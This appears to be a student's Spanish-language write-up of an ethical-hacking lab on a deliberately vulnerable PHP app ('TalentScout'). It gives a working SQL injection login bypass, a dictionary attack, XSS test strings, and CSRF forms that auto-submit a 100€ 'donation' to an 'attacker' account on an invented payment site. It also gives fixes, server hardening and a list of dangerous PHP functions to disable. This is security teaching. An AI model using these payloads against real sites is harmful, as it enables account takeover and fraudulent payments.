






author: Hugo Flores
summary: Guía de bastionamiento de Debian 13
id: 1
categories: codelab,markdown
environments: Web
status: Published
feedback link: Un enlace en el que los usuarios puedan darte feedback (quizás creando un issue en un repositorio de git)
analytics account: ID de Google Analytics
# Proyecto 3 Hacking Ético (TalentScout)
---

## Parte 1
a) Ejemplo de combinación para la inyección SQL
  Escribo los valores

   - username: a" UNION SELECT 1, "1234" --
   - password: 1234

   

  En el campo

   - username y password

  Del formulario de la página

   - http://talentscout.local/list_players.php (que incluye el formulario de inicio de sesión de auth.php)

   

  La consulta SQL que se ejecuta es

   - SELECT userId, password FROM users WHERE username = "a" UNION SELECT 1, "mypass" -- "

  Campos del formulario web utilizados en la consulta SQL

   - username

  Campos del formulario web no utilizados en la consulta SQL

   - password (el valor de la contraseña no se utiliza en la consulta, pero se utiliza en el código PHP para compararlo con el resultado de la consulta)  

b)
Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):
password
123456
12345678
1234
qwerty
12345678
dragon
Dad un ataque que, utilizando este diccionario, nos permita impersonar un usuario de esta aplicación y acceder en nombre suyo. Tened en cuenta que no sabéis ni cuántos usuarios hay registrados en la aplicación, ni los nombres de estos.

### Ejecución del ataque de diccionario

Hemos repetido el proceso de login, una vez por cada usuario de la aplicación, probando en cada intento una contraseña diferente del diccionario. Los nombres de usuario los habíamos obtenido previamente volcando la tabla `users` mediante la inyección SQL en `insert_player.php`.

**Usuario encontrado:** luis
**Contraseña válida:** 1234

c)
Si vais a private/auth.php, veréis que en la función areUserAndPasswordValid, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.

### Corrección en areUserAndPasswordValid

El problema es que la función `SQLite3::escapeString()` se está aplicando mal. En el código actual, se aplica a toda la cadena SQL al final, en lugar de aplicarse solo a la variable que introduce el usuario.

**Código vulnerable:**
```php
$query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');
```

Esto hace que el escapado no sirva de nada contra los caracteres especiales que pongamos en `$user`, porque la concatenación ocurre antes.

**Solución aplicable**
Debemos mover la funcion de escapado para que envuelva solo a la variable `$user`.

Cambiamos la línea por:
```php
$query = 'SELECT userId, password FROM users WHERE username = "' . SQLite3::escapeString($user) . '"'; 
```

d)
Si habéis tenido éxito con el apartado b), os habéis autenticado utilizando el usuario luis (si no habéis tenido éxito, podéis utilizar la contraseña 1234 para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora Candela Pacheco, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.

Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre eldirectorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo add\_comment.php~. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos .php~ sino que los muestran como archivos de texto sin interpretar.

Esto os permite estudiar el código fuente de add\_comment.php y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?

### La vulnerabilidad de suplantación

La aplicación permite la **suplantación de identidad** porque el ID de usuario (`userId`) lo lee directamente de una cookie (`$_COOKIE['userId']`), y ese dato lo podemos manipular nosotros desde el navegador.

**Código vulnerable:**
```php
$query = "INSERT INTO comments (playerId, userId, body) VALUES ('" . $_GET['id'] . "', '" . $_COOKIE['userId'] . "', '$body')";
```
---


## Parte 2: XSS

a)
Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show_comments.php). Dad un mensaje que genere un «alert»de Javascript al consultar el listado de mensajes.

Introducimos el mensaje `<scriptttt>alert ('Esto es una prueba de XSS, muy peligroso')</scriptttt>` en el formulario de la página `talentscout.local/show_comments.php?id=2`



b)
¿Por qué dice &amp; cuando miráis un link (como elque aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GETdentro de código html si en realidad el link es sólo con "&" ?

El `&amp;` es la forma correcta de codificar el símbolo `&` dentro de HTML. Esto es necesario porque el `&` es un carácter especial en HTML que indica el inicio de una entidad de carácter.

c)
Explicad cuál es el problema de show\_comments.php, y cómo lo arreglaríais. Para resolver este apartado, podéis mirar el código fuente de esta página.

El problema de `show_comments.php` es una vulnerabilidad de Cross-Site Scripting (XSS) Almacenado. Esto ocurre porque el código de la página muestra directamente los comentarios de la base de datos. Esto permite que un atacante guarde un comentario con código malicioso
Sustituimos el código de la línea:
```php
echo "<div>
                <h4> ". $row['username'] ."</h4>
                <p>commented: " . $row['body'] . "</p>
              </div>";
```
Por el siguiente código

```php
echo "<div>
                <h4> ". htmlspecialchars($row['username']) ."</h4>
                <p>commented: " . htmlspecialchars($row['body']) . "</p>
              </div>";
```

Descubrid si hay alguna otra página que esté afectada por esta misma vulnerabilidad. En caso positivo, explicad cómo lo habéis descubierto.

**Otras páginas afectadas:** `talentscout.local/insert_player.php`



`talentscout.local/login` (página de inicio de sesión)



Lo descubrimos al poner el script en el campo "User" y una contraseña cualquiera.

**¿Cómo lo hemos descubierto?**
Lo descubrimos al poner en el apartado "Team Name" al añadir un jugador nuevo.



---

## Parte 3 - Control de acceso, autenticación y sesiones de usuarios
a) En el ejercicio 1, hemos visto cómo era inseguro el acceso de los usuarios a la aplicación. En la página de register.php tenemos el registro de usuario. ¿Qué medidas debemos implementar para evitar que el registro sea inseguro? Justifica esas medidas e implementa las medidas que sean factibles en este proyecto.

Hemos modificado `register.php` y `auth.php` para mejorar la seguridad. En `register.php`, las contraseñas ahora se encriptan con `password_hash()` antes de almacenarse, protegiéndolas de brechas de datos. Ambas páginas utilizan sentencias preparadas para prevenir inyecciones SQL, separando el comando de la información del usuario. Finalmente, `auth.php` verifica las contraseñas con `password_verify()`, asegurando una autenticación segura sin exponer las claves. Estos cambios abordan vulnerabilidades críticas en el registro y autenticación.


b) En el apartado de login de la aplicación, también deberíamos implantar una serie de medidas para que sea seguro el acceso, (sin contar la del ejercicio 1.c). Como en el ejercicio anterior, justifica esas medidas e implementa las que sean factibles y necesarias (ten en cuenta las acciones realizadas en el register). Puedes mirar en la carpeta private

**Protección contra fuerza bruta:**
Hemos añadido un bloqueo de 15 minutos si el usuario falla 5 veces seguidas al intentar entrar. Así evitamos que alguien pruebe cientos de contraseñas automáticamente. Para esto hemos modificado la base de datos añadiendo `failed_login_attempts` y `last_failed_login`.

**Gestión segura de sesiones:**
Hemos dejado de usar cookies manuales y hemos pasado al sistema `session_start()` de PHP. Es mucho más seguro porque PHP maneja los identificadores por nosotros.

**Regeneración de ID:**
Cada vez que alguien se loguea, usamos `session_regenerate_id(true)`. Esto invalida el identificador antiguo y asigna uno nuevo, impidiendo ataques de fijación de sesión.

**Cookies blindadas:**
Hemos configurado las cookies con `HttpOnly` (para que JavaScript no pueda leerlas y robarlas) y `SameSite=Strict` (para mitigar ataques CSRF).

**Sentencias preparadas en comentarios:**
También hemos actualizado `add_comment.php` para usar sentencias preparadas, igual que hicimos en el login, para cerrar la puerta a inyecciones SQL en toda la web.

c) Volvemos a la página de register.php, vemos que está accesible para cualquier usuario, registrado o sin registrar. Al ser una aplicación en la cual no debería dejar a los usuarios registrarse, qué medidas podríamos tomar para poder gestionarlo e implementa las medidas que sean factibles en este proyecto.

Las medidas para gestionar el acceso al registro se centran en el Control de Acceso Basado en Roles (RBAC). 
Esto implica: 
1) Definir roles ('admin', 'user'). 
2) Asignar roles a los usuarios. 
3) Verificar el rol del usuario antes de permitir el acceso a register.php.
  Medidas factibles implementadas:
   1. Modificación de la Base de Datos: Se añadió la columna role a la tabla users para almacenar el nivel de acceso de cada usuario.
   2. Asignación de Rol de Administrador: Se actualizó al usuario 'luis' para que tenga el rol de 'admin', permitiéndole gestionar el registro.
   3. Funciones de Verificación de Rol: Se crearon funciones en auth.php (get_logged_in_user, is_admin) para determinar dinámicamente si el usuario actual tiene permisos administrativos.
   4. Protección de `register.php`: Se añadió una restricción al inicio de register.php que bloquea el acceso y detiene la ejecución si el usuario no es un administrador autenticado.

d) Al comienzo de la práctica hemos supuesto que la carpeta private no tenemos acceso, pero realmente al configurar el sistema en nuestro equipo de forma local. ¿Se cumple esta condición? ¿Qué medidas podemos tomar para que esto no suceda?

La suposición de que la carpeta private no es accesible es incorrecta en una configuración local predeterminada. Un servidor web mal configurado podría servir archivos sensibles como database.db o auth.php si un usuario solicita su URL directa

  Medidas para prevenir el acceso:
   1. Configuración del Servidor Web (.htaccess / Apache): La medida más efectiva y factible es usar un archivo .htaccess dentro de la carpeta private con la directiva Deny from all. Esto instruye a Apache a rechazar cualquier solicitud HTTP directa a archivos en ese directorio, manteniéndolos accesibles solo para los scripts PHP del servidor.
   2. Mover fuera del Document Root: Lo ideal es mover la carpeta private fuera del directorio público (web/ o public_html/). Así, es físicamente imposible acceder a ella vía URL, pero los scripts PHP puede seguir incluyéndola mediante rutas relativas o absolutas.

e) Por último, comprobando el flujo de la sesión del usuario. Analiza si está bien asegurada la sesión del usuario y que no podemos suplantar a ningún usuario. Si no está bien asegurada, qué acciones podríamos realizar e implementarlas.

  **Medidas implementadas:**

   1. **Vinculación del navegador (User-Agent):**
       Ahora, al iniciar sesión, guardamos el `User-Agent` del usuario en `$_SESSION['user_agent']`.

   2. **Verificación constante:**
       En cada petición que hace el usuario, comprobamos si su `User-Agent` coincide con el que guardamos al principio. Si cambia de repente (lo que podría indicar un robo de sesión desde otro dispositivo), cerramos la sesión inmediatamente:

       ```php
       if (!isset($_SESSION['user_agent']) || $_SESSION['user_agent'] !== $_SERVER['HTTP_USER_AGENT']) {
            session_unset();
            session_destroy();
         return null;
       }
       ```
---

## Parte 4 - Servidores web
¿Qué medidas de seguridad se implementariaís en el servidor web para reducir el riesgo a ataques?

 1. Deshabilitar la Fuga de Información (Information Leakage)
  Por defecto, los servidores "hablan" demasiado. Dicen qué versión exacta de Apache, PHP y sistema operativo usan, lo cual ayuda a un atacante a buscar exploits específicos.

   Ocultar la versión de Apache:
      En el archivo de configuración de Apache (apache2.conf o httpd.conf):
   1     ServerTokens Prod  # Solo dice "Apache", sin versión ni OS
   2     ServerSignature Off # Elimina la firma al pie de las páginas de error
   Ocultar la versión de PHP:
      En el archivo php.ini:
      expose_php = Off
   Desactivar el listado de directorios:
      Si no hay un index.php en una carpeta, Apache suele listar todos los archivos (como vimos en la carpeta /private antes de poner el .htaccess).
        Options -Indexes

 2. Implementar Cabeceras de Seguridad HTTP (Security Headers)
  Estas cabeceras le dicen al navegador del usuario cómo comportarse para prevenir ataques como XSS o Clickjacking.

   Content-Security-Policy (CSP): La más importante. Define de dónde se pueden cargar scripts, estilos e imágenes. Ayuda enormemente a mitigar XSS.
   X-Frame-Options: Evita que tu web sea incrustada en un <iframe> de otro sitio, previniendo el Clickjacking.
       Header always set X-Frame-Options "SAMEORIGIN"
   X-Content-Type-Options: Evita que el navegador "adivine" el tipo de archivo (MIME-Sniffing).
       Header always set X-Content-Type-Options "nosniff"
   Strict-Transport-Security (HSTS): Fuerza al navegador a usar siempre HTTPS, impidiendo ataques de "Downgrade" a HTTP.

  3. Habilitar HTTPS (SSL/TLS)
  Aunque es obvio, es fundamental.
   Todo el tráfico debe ir cifrado para evitar que alguien en la red intercepte las credenciales o las cookies de sesión (lo que permitiría el robo de sesión que acabamos de mitigar parcialmente con el
     User-Agent).
   Se debe configurar una redirección forzosa de HTTP a HTTPS.

  4. Web Application Firewall (WAF)
  Instalar y configurar un WAF como ModSecurity.
   Un WAF analiza el tráfico HTTP entrante y bloquea patrones maliciosos conocidos antes de que lleguen a tu código PHP.
   Hubiera bloqueado automáticamente los intentos de inyección SQL (' OR '1'='1) y XSS

  5. Restricción de Métodos HTTP
  Si tu aplicación solo usa GET y POST, deshabilita el resto.
   <LimitExcept GET POST HEAD>
       deny from all
   </LimitExcept>
  Esto previene el uso de métodos como TRACE (usado en ataques XST) o PUT si no son necesarios.

  6. Deshabilitar funciones peligrosas de PHP
  En el php.ini, deshabilitar funciones que los atacantes usan para ejecutar comandos en el sistema si logran subir una web shell:

   disable_functions = exec, passthru, shell_exec, system, proc_open, popen, curl_exec, parse_ini_file, show_source

---
## Parte 5 - CSRF
Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: http://web.pagos/donate.php?amount=100&receiver=attacker, mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).

a) Editad un jugador para conseguir que, en el listado de jugadores list\_players.php aparezca, debajo del nombre de su equipo y antes de show/add comments un botón llamado Profile que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

En el campo
Team (Equipo) del formulario de edición de jugador (insert_player.php).

Introduzco
   1 OWASP <br><form action="http://web.pagos/donate.php" method="GET"><input type="hidden" name="amount" value="100"><input type="hidden" name="receiver" value="attacker"><input type="submit"
     value="Profile"></form>

b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show\_comments.php).
 Excelente jugador. 


c) Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.
Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

Para que el ataque funcione, el usuario que ve el mensaje tiene que tener **una sesión activa en `web.pagos`** en ese mismo momento.

Si es así, cuando el navegador intente cargar la imagen falsa (que en realidad es el enlace de donación), enviará automáticamente las cookies de sesión de `web.pagos`. El servidor de pagos recibirá la petición, verá que las cookies son válidas y procesará la transacción creyendo que el usuario la ha hecho voluntariamente.


d) Si web.pagos modifica la página donate.phpdpara que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

Buena jugada.<form id="f" method="POST" action="http://web.pagos/donate.php" style="display:none"><input type="hidden" name="amount" value="100"><input type="hidden" name="receiver"
     value="attacker"></form><script>document.getElementById('f').submit()</script>